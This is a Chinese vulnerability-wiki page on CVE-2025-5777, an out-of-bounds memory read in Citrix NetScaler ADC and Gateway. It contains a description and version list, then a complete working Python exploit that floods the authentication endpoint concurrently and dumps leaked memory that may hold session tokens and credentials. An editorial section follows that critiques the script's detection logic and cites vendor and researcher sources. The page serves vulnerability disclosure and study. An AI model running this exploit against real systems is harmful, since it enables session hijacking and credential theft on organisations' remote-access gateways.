

# CVE-2025-5777｜Citrix NetScaler ADC和NetScaler Gateway内存泄漏漏洞（POC）

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响列表FIPS/NDcPP名称交叉重复且ADC13.1分支遗漏
- 缺网关/AAA等配置前提结构化
- 检测将任意非空InitialValue视为泄漏，首轮无结果不能排除
- decode replace后重新编码破坏原始泄漏字节
- 持续并发读取直到中断需标负载和敏感信息留存
- 补修复和会话处置，保留官方CTX693420

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

alicy  信安百科   2025-07-13 12:02  
  
**0x00 前言**  
  
  
NetScaler ADC和NetScaler Gateway（以前称为Citrix ADC和Citrix Gateway）都是美国思杰（Citrix）公司的产品。  
  
  
Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。  
  
  
  
**0x01 漏洞描述**  
  
  
未经授权的攻击者可通过发送精心构造的网络请求，针对 Citrix NetScaler ADC 及 Citrix NetScaler Gateway 产品中存在的内存越界读取漏洞（CVE-2025-5777）发起攻击。  
  
  
利用此漏洞，能够非法读取设备内存中的敏感数据，其中包括用户会话令牌、Cookie 信息及各类认证凭据等关键信息，对系统安全与用户数据隐私构成严重威胁。  
  
  
  
**0x02 CVE编号**  
  
****  
CVE-2025-5777  
  
  
  
**0x03 影响版本**  
  
```
NetScaler ADC 14.1 < 14.1-43.56
NetScaler Gateway 14.1 < 14.1-43.56
NetScaler ADC < 13.1-58.32
NetScaler Gateway 13.1 < 13.1-58.32
NetScaler ADC 13.1-FIPS < 13.1-37.235-FIPS
NetScaler ADC 13.1-FIPS < 13.1-37.235-NDcPP
NDcPP < 13.1-37.235-FIPS
NDcPP < 13.1-37.235-NDcPP
NetScaler ADC 12.1-FIPS < 12.1-55.328-FIPS
NetScaler ADC 和 NetScaler Gateway 版本 12.1 和 13.0 已进入生命周期结束（EOL），并且存在漏洞，此外，所有使用 NetScaler 实例的 Secure Private Access 部署均受此漏洞影响。
```  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/win3zz/CVE-2025-5777  
  
```
#!/usr/bin/env python3

"""
Title: Citrix NetScaler Memory Leak Exploit
CVE: CVE-2025-5777
Script Tested on: Ubuntu 20.04.6 LTS with Python 3.8.10

"""

import sys
import asyncio
import aiohttp
import signal
import argparse
import re
from colorama import init, Fore, Style

# Init colorama
init(autoreset=True)

# Global flags
stop_flag = False
verbose = False
proxy = None
threads = 10
leak_detected_once = False
initial_check_done = False

def signal_handler(sig, frame):
    global stop_flag
    stop_flag = True
    print(f"\n{Fore.YELLOW}[+] Stopping gracefully...")

def hex_dump(data):
    for i in range(0, len(data), 16):
        chunk = data[i:i+16]
        hex_bytes = ' '.join(f'{b:02x}' for b in chunk)
        ascii_str = ''.join((chr(b) if 32 <= b <= 126 else '.') for b in chunk)
        print(f'{i:08x}: {hex_bytes:<48} {ascii_str}')

def extract_initial_value(content_bytes):
    global leak_detected_once
    try:
        content_str = content_bytes.decode("utf-8", errors="replace")
        match = re.search(r"<InitialValue>(.*?)</InitialValue>", content_str, re.DOTALL)
        if match and match.group(1).strip():
            leak_detected_once = True
            print(f"{Fore.GREEN}\n[+] Found InitialValue:")
            val = match.group(1)
            hex_dump(val.encode("utf-8", errors="replace"))
        elif verbose:
            print(f"{Fore.YELLOW}[DEBUG] No <InitialValue> tag with value found.")
    except Exception as e:
        print(f"{Fore.RED}[!] Regex parsing error: {e}")

async def fetch(session, url):
    full_url = f"{url}/p/u/doAuthentication.do"
    try:
        async with session.post(full_url, data="login", proxy=proxy, ssl=False) as response:
            if verbose:
                print(f"{Fore.CYAN}[DEBUG] POST to {full_url} -> Status: {response.status}")
            if response.status == 200:
                content = await response.read()
                if verbose:
                    print(f"{Fore.CYAN}[DEBUG] Response body (first 200 bytes): {content[:200]!r}")
                extract_initial_value(content)
            else:
                if verbose:
                    print(f"{Fore.RED}[DEBUG] Non-200 status code received: {response.status}")
    except aiohttp.ClientConnectorError as e:
        print(f"{Fore.RED}[!] Connection Error: {e}")
    except Exception as e:
        print(f"{Fore.RED}[!] Unexpected Error: {e}")

async def main(url):
    global stop_flag, leak_detected_once, initial_check_done
    connector = aiohttp.TCPConnector(limit=threads)
    timeout = aiohttp.ClientTimeout(total=15)

    async with aiohttp.ClientSession(connector=connector, timeout=timeout) as session:
        while not stop_flag:
            tasks = [fetch(session, url) for _ in range(threads)]
            await asyncio.gather(*tasks)

            if not initial_check_done:
                initial_check_done = True
                if not leak_detected_once:
                    print(f"{Fore.YELLOW}[+] No leak detected in initial round. Target likely not vulnerable.")
                    stop_flag = True
                    break
                else:
                    print(f"{Fore.GREEN}[+] Leak detected! Continuing to extract...")

            await asyncio.sleep(1)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-5777 Citrix NetScaler Memory Leak PoC (Educational Only)")
    parser.add_argument("url", help="Base URL (e.g., http://target.com)")
    parser.add_argument("-v", "--verbose", action="store_true", help="Enable debug output")
    parser.add_argument("-p", "--proxy", help="HTTP proxy URL (e.g., http://127.0.0.1:8080)")
    parser.add_argument("-t", "--threads", type=int, default=10, help="Number of concurrent threads (default: 10)")
    args = parser.parse_args()

    verbose = args.verbose
    proxy = args.proxy
    threads = args.threads

    signal.signal(signal.SIGINT, signal_handler)

    try:
        asyncio.run(main(args.url.rstrip("/")))
    except KeyboardInterrupt:
        print(f"\n{Fore.YELLOW}[+] Interrupted by user.")
```  
  
  
  
  
  
  
**0x05 参考链接**  
  
  
https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420  
  
  
https://www.theregister.com/2025/07/07/citrixbleed_2_exploits/  
  
  
https://nvd.nist.gov/vuln/detail/CVE-2025-5777  
  
  
  
  
推荐阅读：  
  
  
[CVE-2023-4966｜Citrix NetScaler ADC & Gateway信息泄露漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484652&idx=1&sn=ae73147af98f1906138f12a66e75c088&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=2&sn=a3d57d6619d987a8d64a725f1bc82373&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-32756｜Fortinet多款产品存在远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485986&idx=2&sn=7a87bb2da8ae173794e4a4250b47452a&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）


## 具体触发、对照与内存读取证据（2026-10-03）

已完整静态阅读本文Python、Nuclei模板、CNA和watchTowr公开技术正文及其可复制请求/响应；未运行任何请求、并发读取或会话使用。上方代码与原始版本列表保持原值。

### 入口与对照

watchTowr公开的最小方法向 `/p/u/doAuthentication.do` 发送POST，请求体只有5字节 `login`，没有等号和值。研究对比了正常 `login=username` 的用户名回显、`login=` 的空值，以及仅 `login` 时 `InitialValue` 中出现不属于输入值的残余内容。其完整响应例在随机内容后可见请求User-Agent中的 `TowrwatchTowrw` 片段，支持研究所述请求内容的内存读取；该片段本身不能区分来自哪次请求，也不证明已读到其他用户数据，比“任意非空值就是泄漏”更有区分力。文中说明打印格式为 `%.*s`，遇到空字节或精度边界停止，故返回长度和内容不固定。

研究用于二进制对比的版本是 `14.1.43.50.64`（易受影响）和 `14.1.47.46.64`（修复对照）。这不是厂商所有产品的修复矩阵。研究另给了修复后认证策略错误响应示例，不应把所有不含泄漏的响应强行规定成一种。页面末句的 `InitalValue` 拼写与“without content”表述存在歧义，应结合前面的完整请求/响应及空值对照解读，不能单独摘抄为检测规则。

### 结果与脚本限制

原研究明确说其测试没有发现cookie、session ID或密码；进一步取得敏感内容是作者对运行更久或生产会话环境的判断，不是这份实验已展示的结果。本文原始Python将响应先按UTF-8 `errors="replace"` 解码，再重新编码做hex dump，会丢失非法UTF-8的原始字节；应称为转换后文本的十六进制显示，不能当成原始内存字节证据。代码首轮没有非空值便退出，后续则持续并发至中断，两种行为均不能提供可靠的阴性证明。

Nuclei多加了认证响应Content-Type、长度和非base64等条件，但仍属于内容启发式；`InitialValue`也可用于正常用户名、布尔值等字段，不能仅凭状态200、非空或非base64独立判定泄漏。严格资料准入依据是原研究的具体畸形输入、对照和残余标记输出，而非模板标签或KEV。

### 适用配置、修复与风险

厂商CNA明确要求NetScaler配置为Gateway（VPN virtual server、ICA Proxy、CVPN、RDP Proxy）或AAA virtual server；不是所有管理界面都自动暴露此入口。CNA列出ADC/Gateway 14.1分支低于43.56、13.1分支低于58.32受影响。上方FIPS/NDcPP行存在交叉重复，不能作为本次确认的精确分支范围；厂商CTX693420此次HTTP及页面读取只得到Loading壳，未读到正文，故不能声称已经核实其中FIPS、EOL或会话清理细节。

触发会读取可能含其他请求内容的设备内存，并在终端/日志留存；反复并发可能造成额外负载，来源未给统一清理保证。修复安装与既有会话风险处置是不同事项，后者应依据可访问的厂商正式说明和实际事件情况决定；本次未提取凭据、使用会话或执行处置。

### 来源

- Sina Kheirkhah、Jake Knott、Aliz Hammond / watchTowr，2025-07-04：<https://labs.watchtowr.com/how-much-more-must-we-bleed-citrix-netscaler-memory-disclosure-citrixbleed-2-cve-2025-5777/>；全文文本和可复制请求/响应已读，嵌入截图/视频未逐帧检查，不能声称其像素已独立验证
- CNA：<https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2025/5xxx/CVE-2025-5777.json>；Gateway/AAA配置及主分支范围
- 厂商入口：<https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420>；此次仅得到Loading页面，访问限制如上
- Nuclei固定版本：<https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2025/CVE-2025-5777.yaml>
- 本文原PoC出处保留：<https://github.com/win3zz/CVE-2025-5777>；本次核读的是上方完整归档代码，不声称重新核对该仓库最新版本
